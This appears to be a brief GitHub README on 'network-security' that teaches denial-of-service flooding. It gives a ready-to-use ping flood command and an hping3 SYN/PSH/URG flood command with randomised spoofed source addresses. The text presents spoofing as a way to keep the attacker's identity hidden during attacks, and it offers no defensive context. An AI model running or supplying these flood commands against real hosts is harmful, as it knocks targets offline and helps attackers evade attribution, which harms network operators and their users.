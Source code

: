 # network-security
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource
command:
```
  ping -f -s 65500 ip(or website)
```
However, there are more sophisticated tools available at our disposal like Hping3
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
